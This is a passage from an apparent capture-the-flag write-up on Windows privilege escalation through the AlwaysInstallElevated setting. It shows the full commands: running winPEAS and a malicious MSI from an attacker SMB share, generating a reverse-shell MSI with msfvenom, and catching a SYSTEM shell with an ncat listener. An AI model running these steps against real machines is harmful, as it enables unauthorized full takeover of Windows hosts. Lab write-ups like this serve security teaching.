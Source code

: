 ```
PS C:\xampp\htdocs\omrs\images> \\10.10.14.27\files\wpa.exe
```

In the output we see that the `AlwaysInstallElevated` registry keys are both set to 1 which means we can easily get to system running a malicious msi.

```
  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

In a first step we create the `msi` using `msfvenom` and select a reverse shell as payload.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.27 LPORT=7575 -f msi -o grem.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: grem.msi
```

We set up a ncat listener on the specified port and execute it from our smb share as we did with winpeas before.

```
PS C:\xampp\htdocs\omrs\images> msiexec /quiet /qn /i \\10.10.14.27\files\grem.msi
```

Soon after we get a hit on our listener as `nt authority\system`. Now we can grab the `root.txt` from the administrator's desktop.

```
$rlwrap nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.4.229.
Ncat: Connection from 10.129.4.229:50480.
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```
